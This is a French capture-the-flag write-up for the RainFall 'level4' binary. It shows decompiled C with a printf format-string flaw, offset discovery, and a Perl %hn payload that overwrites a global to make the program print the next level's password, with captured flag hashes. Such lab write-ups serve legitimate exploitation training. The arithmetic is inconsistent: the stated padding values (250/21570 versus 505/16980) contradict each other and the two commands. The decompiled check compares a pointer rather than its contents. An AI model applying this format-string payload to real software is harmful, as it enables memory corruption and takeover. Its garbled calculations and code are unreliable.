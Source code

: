 # level4 :

pass : `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`

## Source :

```c
#include <stdio.h>

void	p(char *str) {
	printf(str);
}

void	n() {
	// char *fgets(char *s, int size, FILE *stream);
	char str[520];  // 0x208
	fgets(str, 512, stdin);  // 0x200
	p(str);
	void	*m = 0x8049810;  // bss segment finish at 0x08049814
	if (m == 0x1025544) {
		system("/bin/cat /home/user/level5/.pass");
	}
}

void	main() {
	n();
}
```

## Recherche :

Comme pour le level3, on cheche l'offset qui est cette fois à `12`

```
kali@kali:~/rainfall$ ./script.sh ./level4
Index 0
Index 1
Index 2
Index 3
Index 4
Index 5
Index 6
Index 7
Index 8
Index 9
Index 10
Index 11
Index 12
AAAA41414141
```

Cette fois on veut :
- écrire à l'addresse `0x08049810`
- l'offset pour y écrire est `12`
- la valeur que l'on veut mettre est `0x1025544`

Pour mettre cette valeur, on utilisera `%hn` qui permet d'écrire sur `2` octets.

Donc `0x5544` `0x08049810` et `0x0102` `0x08049812`
pour le little endian on a
Comme `0x5544` > `0x0102`, on les écrira dans l'ordre inverse.
- `0x0102` - `8 bits d'adresses` = `250`
- `0x5544` - `0x0102` = `21570`

On a doit dont décalé de 513 - 8 = 505 pour le second, puis de 17493 - 513 = 16980 pour le premier.

`./level4 < <(perl -e 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12\$hn%16980x%13\$hn"')`

## Exploit :

```
level4@RainFall:~$ ./level4 < <(perl -e 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12\$hn%21570x%13\$hn"')

.
.
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
